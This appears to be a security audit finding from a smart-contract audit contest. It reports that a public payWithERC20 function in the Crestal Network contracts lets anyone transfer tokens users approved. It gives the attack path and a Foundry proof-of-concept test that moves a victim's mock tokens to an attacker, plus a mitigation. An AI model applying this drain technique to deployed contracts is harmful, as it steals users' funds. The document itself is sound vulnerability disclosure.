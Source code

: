 Mythical Ivory Haddock

High

# Funds may be lost when creating/updating an agent.

### Summary

When creating an agent, the caller pays a set fee(cost). Create/update agent functions using the [payWithERC20](https://github.com/sherlock-audit/2025-03-crestal-network/blob/main/crestal-omni-contracts/src/Payment.sol#L25) function.
```solidity
function createAgent(
        address userAddress,
        bytes32 projectId,
        string memory base64Proposal,
        address privateWorkerAddress,
        string memory serverURL,
        uint256 tokenId,
        address tokenAddress
    ) internal returns (bytes32 requestID) {
    ...
	// payment to crestal wallet address with token
@>	payWithERC20(tokenAddress, cost, userAddress, feeCollectionWalletAddress);
	...
}
```
Payment tokens can be found in the [paymentAddressEnableMp](https://github.com/sherlock-audit/2025-03-crestal-network/blob/main/crestal-omni-contracts/src/BlueprintCore.sol#L95)
The fee(cost) can be found in the [paymentOpCostMp](https://github.com/sherlock-audit/2025-03-crestal-network/blob/main/crestal-omni-contracts/src/BlueprintCore.sol#L97)

Caller steps:
1. Find out the token and fee(cost);
2. Call `token.approve(BlueprintV5, cost)`;
3. Call create agent function. For example:
	[createAgentWithToken](https://github.com/sherlock-audit/2025-03-crestal-network/blob/main/crestal-omni-contracts/src/BlueprintCore.sol#L479)
	[updateWorkerDeploymentConfig](https://github.com/sherlock-audit/2025-03-crestal-network/blob/main/crestal-omni-contracts/src/BlueprintCore.sol#L663)
	[userTopUp](https://github.com/sherlock-audit/2025-03-crestal-network/blob/main/crestal-omni-contracts/src/BlueprintCore.sol#L751)

The issue is that the [payWithERC20](https://github.com/sherlock-audit/2025-03-crestal-network/blob/main/crestal-omni-contracts/src/Payment.sol#L25) function is public and it allows an attacker to steal funds.

### Root Cause

In `Payment.sol:25`, `payWithERC20` function is public.

### Internal Pre-conditions

None

### External Pre-conditions

None

### Attack Path

Payment tokens can be found in the [paymentAddressEnableMp](https://github.com/sherlock-audit/2025-03-crestal-network/blob/main/crestal-omni-contracts/src/BlueprintCore.sol#L95).
An attacker can track token events: "Approval"(address spender = BlueprintV5). 
He finds out from the event: address owner, address spender, uint256 value. 
Then call the [payWithERC20](https://github.com/sherlock-audit/2025-03-crestal-network/blob/main/crestal-omni-contracts/src/Payment.sol#L25) function and transfer the tokens to your address.

`payWithERC20(tokenAddress, value, victimAddress, attackerAddress);`

### Impact

Anyone who creates/updates an agent can lose funds.

### PoC

```solidity
pragma solidity ^0.8.26;

import {Test, console} from "forge-std/Test.sol";
import {BlueprintV5} from "../src/BlueprintV5.sol";
import {MockERC20} from "./MockERC20.sol";

contract BlueprintTest is Test {

    BlueprintV5 public blueprint;
    MockERC20 public mockToken;

    function setUp() public {
        blueprint = new BlueprintV5();
        blueprint.initialize();
        mockToken = new MockERC20();
    }

    function test_PoC() public {
        address attacker = makeAddr("attacker");
        address victim = makeAddr("victim");

        // Mint tokens to the test account
        uint256 validTokenAmount = 100 * 10 ** 18;
        deal(address(mockToken), victim, validTokenAmount);

        // Add the payment address
        blueprint.addPaymentAddress(address(mockToken));

        // set none zero cost for create agents, use any number greater than 0
        blueprint.setCreateAgentTokenCost(address(mockToken), validTokenAmount);
        
        uint256 victimBalance = mockToken.balanceOf(victim);
        assertEq(victimBalance, validTokenAmount);

        vm.prank(victim);
        // Approve the blueprint contract to spend tokens directly from the test contract
        mockToken.approve(address(blueprint), validTokenAmount);

        vm.prank(attacker);
        blueprint.payWithERC20(address(mockToken), validTokenAmount, victim, attacker);
        
        uint256 attackerBalance = mockToken.balanceOf(attacker);
        assertEq(attackerBalance, validTokenAmount);
        victimBalance = mockToken.balanceOf(victim);
        assertEq(victimBalance, 0);
    }
}
```

### Mitigation

Consider making the `payWithERC20` function internal or restricting it with an access modifier